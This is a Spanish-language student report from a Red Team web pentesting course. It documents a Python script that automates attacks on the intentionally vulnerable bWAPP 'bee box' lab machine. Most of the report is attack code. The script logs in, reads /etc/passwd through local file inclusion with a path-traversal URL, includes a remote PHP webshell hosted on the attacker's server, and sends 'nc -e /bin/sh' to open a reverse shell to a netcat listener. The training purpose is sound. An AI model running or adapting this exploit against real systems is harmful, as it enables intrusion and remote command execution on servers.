








Unidad 2
ACTIVIDAD N°4

**Nombre Alumna:** Fernanda Vergara Chávez
**Nombre Profesor:** Ángel Gangas - Asistente de clases: Violeta Gangas
**Diplomado:** Red Team Avanzado
**Curso:** PENTESTING WEB AVANZADO
**Fecha de entrega:** 03/10/2024

# Introducción

Esta actividad consiste en automatizar la explotación de la máquina bee box mediante un script en Python 3. El script recibe una dirección IP como parámetro y ejecuta tres fases de ataque: una Local File Inclusion (LFI) para leer el archivo /etc/passwd, una Remote File Inclusion (RFI) para cargar una webshell, y finalmente, la obtención de una shell reversa en PHP en el puerto 8443.

# Desarrollo

## I.  Ambiente, archivos y configuraciones:

1. Se ha usado la máquina bee para atacar y la máquina Kali como atacante:


2. Se desarrolla un script php para crear la webshell:



3. Se arranca el servidor web desde una terminal en la carpeta que contiene el archivo webshell con comando:

python -m http.server 8080



Y enseguida, se ejecuta en otra terminal, el comando que escuchara el puerto 8443:

nc -lvnp 8443



## II.  Código python para el ataque:



(Para ver el codigo completo, por favor revisar anexo: lfi\_rfi.py)

\*Para ejecutar el código, se deben agregar los siguientes parámetros: el primer parámetro es la IP a atacar, y el segundo es la IP pública local.



A continuación, se desglosan las partes del código para explicar su funcionalidad:

1. Importación de módulos: requests para manejar solicitudes HTTP, argparse para gestionar argumentos de línea de comandos, os para operaciones del sistema, y re para expresiones regulares.

```language
import requests
import argparse
import os
import re
```

2. Función para extraer contenido LFI: La función extract\_lfi\_content(response) toma una respuesta HTTP como entrada y define patrones para identificar el inicio y el final del contenido que se desea extraer. Busca el patrón de inicio; si no lo encuentra, devuelve un mensaje de error.

```language
def extract\_lfi\_content(response):
        start\_pattern = (
            r'<button\\s+type="submit"\\s+name="action"\\s+value="go">Go</button>\\s\*'
            r'</form>\\s\*<br\\s\*/?>'
        )
        end\_pattern = r'</div>'
        start\_match = re.search(start\_pattern, response, re.DOTALL | re.IGNORECASE)
        if not start\_match:
            return "Start pattern not found in the response."
```

3. Se obtiene el índice del patrón de inicio, se crea una subcadena desde ese índice y busca el patrón de fin en la subcadena. Si no se encuentra el patrón de fin, devuelve un mensaje de error.

```language
        start\_index = start\_match.end()
        content\_substr = response\[start\_index:\]
        end\_match = re.search(end\_pattern, content\_substr, re.DOTALL | re.IGNORECASE)
        if not end\_match:
            return "End pattern not found in the response after start pattern."
        end\_index = end\_match.start()
        raw\_content = content\_substr\[:end\_index\]
```

4. Se limpia el contenido extraído eliminando etiquetas HTML y entidades. Finalmente, retorna el contenido limpio o un mensaje indicando que está vacío.

```language
        cleaned\_content = re.sub(r'<\[^>\]+>', '', raw\_content).strip()
        cleaned\_content = re.sub(r'&\[a-z\]+;', '', cleaned\_content)

        return cleaned\_content if cleaned\_content else "LFI content not found or is empty."
```

5. Función login: Esta función maneja el proceso de autenticación a un sitio web. Envía las credenciales del usuario (login\_data) a la URL de inicio de sesión (login\_url) y verifica si la autenticación fue exitosa. Si lo fue, devuelve la sesión; si no, indica que la autenticación falló.

```language
def login(target\_ip, username, password):
        login\_url = f"http://{target\_ip}/bWAPP/login.php"
        session = requests.Session()
        login\_data = {
            'login': username,
            'password': password,
            'form': 'submit'
        }
        response = session.post(login\_url, data=login\_data)
        if "portal.php" in response.text or response.status\_code == 200:
            print("\[+\] Successful authentication with user:", username)
            return session
        else:
            print("\[-\] Authentication failed. Please check your credentials.")
            return None
```

6. Función exploit\_lfi: La función intenta llevar a cabo un ataque de inclusión de archivos locales (LFI) para leer el archivo /etc/passwd. Si se encuentra el contenido esperado, lo extrae y lo imprime; de lo contrario, indica que el ataque falló.

```language
def exploit\_lfi(session, target\_ip):
        print("\[\*\] Attempting LFI to read /etc/passwd...")
        lfi\_url = f"http://{target\_ip}/bWAPP/rlfi.php?language=../../../../etc/passwd&action=go"
        response = session.get(lfi\_url)
        if "root:x" in response.text:
            print("\[+\] Successful LFI. Contents of /etc/passwd:")
            print(extract\_lfi\_content(response.text))
        else:
            print("\[-\] LFI failed or file not found.")
```

7. Función test\_webshell: Esta función verifica si una webshell es funcional ejecutando un comando de listado (ls). Si la ejecución es exitosa y devuelve contenido válido, confirma que la webshell está funcionando; de lo contrario, reporta un error.

```language
def test\_webshell(session, target\_ip, webshell\_url):
        print("\[\*\] Testing the webshell by executing 'ls' command...")
        test\_cmd = "ls"
        test\_url = f"http://{target\_ip}/bWAPP/rlfi.php?language={webshell\_url}&cmd={test\_cmd}&action=go"
        response = session.get(test\_url)

        if response.status\_code == 200:
            content = extract\_lfi\_content(response.text)
            if content.startswith("Warning:"):
                print(
                    f"\[-\] Webshell include did not work, check local web server is running from the same path as the webshell script.")
                return False
            print(f"\[+\] Webshell is working. Command output: {content}")
            return True
        else:
            print("\[-\] Webshell is not working or command execution failed.")
            return False
```

8. Función get\_reverse\_shell: La función intenta establecer una shell inversa utilizando una webshell. Prepara un comando para ejecutar en el sistema remoto y lo envía; indica si el envío fue exitoso o no.

```language
def get\_reverse\_shell(session, target\_ip, webshell\_url, local\_ip, local\_port):
        print(f"\[\*\] Attempting to obtain a reverse shell on port {local\_port} using the included webshell...")
        print(f"\[\*\] If the listener is running, the script will halt here...")
        print(f"\[\*\] When the listener shuts down the script will end as well")

        payload = f'nc -e /bin/sh {local\_ip} {local\_port}'
        reverse\_shell\_url = f"http://{target\_ip}/bWAPP/rlfi.php?language={webshell\_url}&cmd={payload}&action=go"
        response = session.get(reverse\_shell\_url)

        if response.status\_code == 200:
            print("\[+\] Reverse shell command sent successfully.")
        else:
            print("\[-\] Failed to send the reverse shell command.")
```

9. Función main: La función principal que orquesta todo el proceso: configura el directorio del script, define los argumentos de la línea de comandos, gestiona la autenticación, realiza el ataque LFI, prueba la webshell y, si es exitosa, intenta establecer una shell inversa.

```language
def main():
        script\_directory = os.path.dirname(os.path.realpath(\_\_file\_\_))
        default\_webshell\_path = os.path.join(script\_directory, "webshell.php")

        parser = argparse.ArgumentParser(
            description="Automated exploitation of Bee machine with authenticated session and local web server")
        parser.add\_argument("target\_ip", help="IP address of the target machine")
        parser.add\_argument("--username", help="Valid username to log in to bWAPP", default="fer")
        parser.add\_argument("--password", help="Valid password to log in to bWAPP", default="123456")
        parser.add\_argument("--lhost", help="Local IP address to host the web server and for reverse shell", required=True)
        parser.add\_argument("--lport", help="Local port for the reverse shell", default=8443)
        parser.add\_argument("--webport", help="Local port for the web server hosting the webshell", default=8080)
        parser.add\_argument("--webshell",
                            help=f"Path to the local webshell file to be hosted (default: {default\_webshell\_path})",
                            default=default\_webshell\_path)

        args = parser.parse\_args()
        username = args.username
        password = args.password
        session = login(args.target\_ip, username, password)

        if session:
            webshell\_url = f"http://{args.lhost}:{args.webport}/{os.path.basename(args.webshell)}"
            exploit\_lfi(session, args.target\_ip)

            if test\_webshell(session, args.target\_ip, webshell\_url):
                get\_reverse\_shell(session, args.target\_ip, webshell\_url, args.lhost, args.lport)
            else:
                print("\[-\] Webshell test failed. Aborting reverse shell attempt.")
```

10. Ejecución del Script: Este bloque ejecuta la función principal si el script se ejecuta directamente.

```language
if \_\_name\_\_ == "\_\_main\_\_":

        main()
```

## Resultados y Conclusiones

El script logró autenticarse exitosamente en el sistema, permitiendo el acceso a información sensible  de bWAPP mediante una vulnerabilidad de inclusión de archivos locales (LFI). Se logró leer el contenido del archivo /etc/passwd, revelando detalles sobre los usuarios del sistema.





Además, se verificó que la reverse shell está funcionando correctamente al ejecutar un comando de listado (ls), lo que indica que se podría realizar la ejecución de comandos en el servidor, como indica la captura:



# Referencias

* Código de python usado en clases, modificado para propósitos de la actividad y refinado con IA.
* Guia de desarrollo en clases
